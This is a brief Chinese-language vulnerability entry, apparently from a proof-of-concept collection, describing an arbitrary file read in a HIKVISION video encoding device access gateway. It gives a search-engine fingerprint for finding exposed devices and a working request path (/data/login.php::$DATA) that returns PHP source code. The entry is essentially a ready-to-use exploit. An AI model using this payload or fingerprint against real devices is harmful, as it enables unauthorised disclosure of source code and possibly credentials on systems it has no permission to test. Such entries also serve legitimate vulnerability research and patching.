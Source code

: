 # HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628164956874-f53d9c48-6820-4c43-a3e5-aea8b6415ae8.png)

验证POC

```plain
/data/login.php::$DATA
```

![img](../../../.vuepress/public/img/1628165037205-928b64e5-2476-4511-afee-c562b17a031d.png)